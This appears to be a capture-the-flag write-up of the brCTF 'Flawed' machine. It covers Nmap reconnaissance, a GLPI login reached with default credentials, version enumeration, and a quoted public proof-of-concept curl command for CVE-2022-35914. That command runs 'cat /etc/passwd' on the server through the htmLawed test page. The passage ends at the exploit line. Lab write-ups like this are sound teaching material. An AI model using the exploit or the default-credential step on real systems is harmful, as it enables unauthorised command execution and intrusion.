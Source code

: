 # Flawed machine from brCTF

## Information Gathering/Reconnaissance
As is customary, we initiate our preferred network scanning tool, Nmap, to conduct initial reconnaissance. Our scan reveals that port 80, which is typically associated with HTTP and port 22, are accessible. <br>
`nmap -sC -sV -oN flawed.nmap 10.0.160.157`
```
Nmap scan report for 10.0.160.157
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Authentication - GLPI
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

In the second phase of our reconnaissance, we proceed to examine the application hosted on port 80 by accessing it through our web browser. To our surprise, we are welcomed with a login page. Quite intriguing!
![GLPI Login](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/glpi-login.png "a title")

After a brief research on google we discovered default credentials for GLPI which we can try on out target.
![google glpi logins](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/glpi-default-creds.png "a title")

We now attempt to login to GLPI and viola!!<br>
From there we move on with out recon and attempt to find the version of GLPI running. Hopefully we can find publicly available exploits.
![glpi logged in](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/checking-glpi-version.png "a title")
The version of GLPI can be seen in the photo below.
![glpi version enum](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/cockpit/images/glpi-version.png "a title")

Now that we know the version running, we can google it to find avaiable exploits and shortly after, we find one on github from [Orange-CyberDefense](https://github.com/Orange-Cyberdefense/CVE-repository/blob/master/PoCs/POC_2022-35914.sh)

```curl -s -d 'sid=foo&hhook=exec&text=cat /etc/passwd' -b 'sid=foo' http://localhost/vendor/htmlawed/htmlawed/htmLawedTest.php |egrep '\&nbsp; \[[0-9]+\] =\&gt;'| sed -E 's/\&nbsp; \[[0-9]+\] =\&gt; (.*)<br \/>/\1/'```
